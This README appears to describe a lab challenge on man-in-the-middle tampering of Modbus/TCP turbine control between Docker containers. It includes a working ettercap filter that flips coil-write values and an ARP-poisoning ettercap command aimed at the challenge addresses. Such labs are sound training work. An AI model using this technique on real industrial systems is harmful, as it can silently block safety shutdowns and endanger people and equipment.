

# mitm‑modbus — Modbus man‑in‑the‑middle

A challenge that demonstrates on‑path tampering of **Modbus/TCP** control traffic. A
Modbus **master** periodically sends a shutdown command to a **slave** (outstation)
that drives GPIO and reports state to MQTT. Sitting between them with `ettercap` and a
packet filter, you can silently rewrite the command on the wire so the operator's intent
never reaches the device.

## Components

| File | Role |
| --- | --- |
| [`master/master.py`](master/master.py) | Async Modbus master; writes a shutdown coil to the slave |
| [`slave/slave.py`](slave/slave.py) | Async Modbus server; GPIO + MQTT, reacts to the coil |
| [`slave/helper.py`](slave/helper.py) | Command‑line/arg helper for the server |
| [`etter.filter.modbus`](etter.filter.modbus) | ettercap filter source (rewrites the write value) |
| `etter.filter.modbuscomp` | Compiled ettercap filter (`etterfilter` output) |
| [`docker-compose.yml`](docker-compose.yml) | Master + slave on a fixed subnet |

## Architecture



### Behaviour

- **Master** ([`master.py`](master/master.py)) connects to the slave at
  `172.20.0.3:502` and, every 5 seconds, calls `write_coil(1, True)` — the "shut the
  turbine down" command — retrying aggressively on any error.
- **Slave** ([`slave.py`](slave/slave.py)) runs an async Modbus TCP server with a
  sequential datastore, uses `RPi.GPIO`, and mirrors state to MQTT (`zone1`) and a GPIO
  pin. It watches the coil and calls `changeON()` to toggle the physical output / publish
  the new state.
- **Attacker** runs `ettercap` between the two (ARP poisoning) with the Modbus filter.

### The ettercap filter (`etter.filter.modbus`)

```text
if (ip.proto == TCP && tcp.dst == 502) {
  if (search(DATA.data, "\xff")) {
    replace("\xff", "\x0");   # 0xFF00 "coil ON" → 0x0000 "coil OFF"
  }
}
```

In Modbus, *Write Single Coil* encodes **ON as `0xFF00`** and **OFF as `0x0000`**. The
filter finds the `0xFF` byte in write requests to port `502` and flips it to `0x00`,
turning every "ON/shutdown" command into an "OFF" — the classic Modbus MITM. Compile it
with `etterfilter etter.filter.modbus -o etter.filter.modbuscomp` before loading.

## Network / ports

`docker-compose.yml` puts both services on a fixed bridge subnet so the attacker can
predict addresses:

| Service | Address | Notes |
| --- | --- | --- |
| `master` | `172.20.0.2` | subnet `172.20.0.0/16` |
| `slave` | `172.20.0.3` | Modbus/TCP `502` |

## Running

```bash
docker compose up --build
```

Then, from a host on the same segment, run ettercap with the compiled filter and ARP
poisoning between `172.20.0.2` and `172.20.0.3`, e.g.:

```bash
ettercap -T -q -F etter.filter.modbuscomp -M arp /172.20.0.2// /172.20.0.3//
```

## The objective

Use the man‑in‑the‑middle position to **override the operator**: rewrite the Modbus
write value so the master's shutdown command is neutralised (turbine stays on) — or,
inversely, forge/allow the shutdown — all without either endpoint detecting the change.
This illustrates why unauthenticated Modbus/TCP cannot be trusted for safety‑critical
control on a shared network.

> ⚠️ Only run the MITM tooling on an isolated lab network against these challenge
> containers.

## Quick start

```bash
docker compose up
```

For setup, functional testing, and how this ties into the shared
dashboard, see [`docs/ADMIN.md`](../docs/ADMIN.md). For how to actually
run the attack, see [`attacker/README.md`](attacker/README.md). If you're
a player looking for where to start, see
[`docs/PLAYER.md`](../docs/PLAYER.md).
